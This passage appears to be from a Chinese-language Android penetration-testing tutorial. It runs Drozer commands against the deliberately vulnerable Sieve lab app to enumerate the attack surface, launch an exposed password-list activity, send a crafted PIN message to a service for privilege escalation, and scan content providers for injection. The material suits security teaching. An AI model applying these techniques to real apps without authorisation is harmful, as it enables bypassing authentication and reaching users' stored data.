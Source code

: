 ![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MILzrYqh3hr18gRwhCicWblWSnblw60EuJ7aFAsA1MNvZE8RjRjxmORw/640?wx_fmt=png "")  
  
  
**确定攻击面**  
  
run app.**package**.attacksurface com.mwr.example.sieve  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7Mk2oOEGlxDDCOeSKHQTUibHI4dGDp4EA2hib28iavTBcOmicLc6NakjcI6g/640?wx_fmt=png "")  
  
### 2.2.2    Activity漏洞挖掘  
  
-  
显示暴露的Activity  
信息  
  
run app.activity.info -a com.mwr.example.sieve  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MsKRYKd0NRicdvc4Z9VGQODibyGicWNmLx8nkpfmBAhKtniaqVoPVOGRAFg/640?wx_fmt=png "")  
  
  
-  
生成intent  
启动activity  
  
run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7ML4X0IHoD5mW0meGB1XEjAv2vFibicrv1emMI62baqeHSGH34HRy9rl6A/640?wx_fmt=png "")  
  
### 2.2.3    Service漏洞挖掘  
  
获取service  
详情　　  
  
run app.service.info -a com.mwr.example.sieve  
  
权限提升  
  
run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg2354 9234  0 --extra string com.mwr.example.sieve.PIN 1111 --bundle-as-obj  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7M3pypS9W2QfH99Us1UDWtVW2yHlwwPr1icrzXQL7I6pniclPuib7rQLcvA/640?wx_fmt=png "")  
  
### 2.2.4    BroadcastReceiver漏洞挖掘  
  
查看暴露的广播组件信息  
  
run app.broadcast.info -a com.mwr.example.sieve  
### 2.2.5    ContentProvider漏洞挖掘  
  
-ContentProvider  
注入漏洞  
  
run app.provider.info -a com.mwr.example.sieve  
  
run scanner.provider.injection -a com.mwr.example.sieve  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MsERxlhp94ZXJM5HZMLhNRT0BULh5bVicqqTVVInQPjXtFvaf8Bpwt1w/640?wx_fmt=png "")  
  
